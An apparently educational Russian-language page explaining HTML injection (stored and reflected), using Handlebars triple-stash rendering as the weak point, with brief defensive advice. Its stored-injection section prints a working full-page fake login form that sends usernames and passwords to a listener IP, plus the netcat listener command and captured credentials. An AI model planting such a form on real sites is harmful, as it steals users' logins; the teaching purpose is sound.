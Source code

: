 # HTML Injection (HTML инъекция)

Инъекции Hypertext Markup Language (HTML), также иногда называемые виртуальным дефейсом. 
Они являются типом атаки, которая благодаря отсутствию надлежащей обработки пользовательского ввода позволяет злоумышленнику встроить на сайт собственный HTML-код. 
Другими словами, такая уязвимость вызывается получением некорректного HTML, как правило, через форму ввода, а затем рендер этого HTML на странице. 
Это отдельный тип уязвимости, который следует отличать от инъекции Javascript, VBscript и прочих.

Например, если вы можете внедрить HTML, вы можете добавить тег '<form>' на страницы, прося пользователя заново ввести его логин и пароль. 
Однако, при отправке такая форма передаст информацию злоумышленнику.


Используемый template engine [Handlebars](https://handlebarsjs.com/guide/#html-escaping) экранирует спец. символы если использовать `{{expression}}`:

```
    raw: & < > " ' ` =
    html-escaped: &amp; &lt; &gt; &quot; &#x27; &#x60; &#x3D;
```  
Однако если использовать  "triple-stash" `{{{expression}}}` то шаблон рендерится как есть.


## Уязвимые елементы страницы:

- Поле комментариев
- Поле поиска
- Другие поля

## Защита от HTML-инъекции

Установка HTML-скрипта, который будет фильтровать метасимволы из пользовательского ввода.
Реализация функции для проверки вводимых пользователем данных, чтобы они не содержали каких-либо конкретных тегов, которые могут привести к виртуальным искажениям.

## [Угрозы HTML-инъекции](https://habr.com/ru/companies/alexhost/articles/530862/)

- атака с использованием межсайтовых скриптов (XSS)
- подделки запросов на стороне сервера (SSRF)

На первый взгляд HTML-инъекция во многом похожа на межсайтовый скриптинг. 
Однако во время XSS-атаки можно внедрять и выполнять Javascript коды, а при HTML-инъекции приходится обходится только определенными HTML тегами.

### Сохраненный HTML

"Сохраненный HTML" — внедренный вредоносный скрипт постоянно сохраняется на сервере веб-приложений, 
который затем передает его обратно пользователю, когда он посещает внедренную веб-страницу.

Наиболее распространенный пример сохраненного HTML — это «опция комментариев» в блогах, которая позволяет любому пользователю вводить свой отзыв 
в форме комментариев для администратора или других пользователей.

*Инъекция*:

```
<div style="position: absolute; left: 0px; top: 0px; width: 1900px; height: 1300px; z-index:1000; background-color:white; padding:1em;">
Please login with valid credenitals:<br>
<form name="login" action="http://192.168.0.7:4444/login.htm">
<table><tr><td>Username:</td><td><input type="text" name="username"/></td></tr><tr><td>Password:</td>
<td><input type="text" name="password"/></td></tr><tr>
<td colspan=2 align=center><input type="submit" value="Login"/></td></tr>
</table></form>
```

где: IP http://192.168.0.7 это ваш IP сервера прослушки (для учебных целей взят свой IP через `ifconfig`)

Сразу просле внедрения у всех пользователей будет открывать наша форма ввода.

Давайте теперь запустим прослушиватель `netcat` через порт 4444, чтобы перехватывать запросы жертв.

`nc -lvp 4444`

Вывод перехваченных:

```
$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on jeka.local.tld 60212
GET /login.htm?username=Karl&password=1234 HTTP/1.1
Host: 192.168.8.124:4444
Connection: keep-alive
Upgrade-Insecure-Requests: 1
DNT: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
Accept-Language: ru,ru-RU;q=0.9,es-ES;q=0.8,es;q=0.7,en;q=0.6,uk;q=0.5

```


## Reflected (Отраженный) HTML

Reflected HTML возникает, когда веб-приложение немедленно отвечает на введенные пользователем данные, не проверяя их.

Вредоносный скрипт не сохраняется на веб-сервере, поэтому злоумышленнику необходимо отправить вредоносную ссылку через фишинг, чтобы поймать пользователя.

Эта уязвимость может иметь множество последствий, например, раскрытие файлов cookie сеанса пользователя, которые могут быть использованы для выдачи себя за жертву, или, в более общем плане, она может позволить злоумышленнику изменить содержимое страницы, которое видят жертвы.

Reflected HTML бывает трех типов:

- Reflected HTML GET. Запрашивает данные из определенного источника.
- Reflected HTML POST. Оправляет данные на сервер для создания/обновления ресурса.
- Reflected HTML Текущий URL.

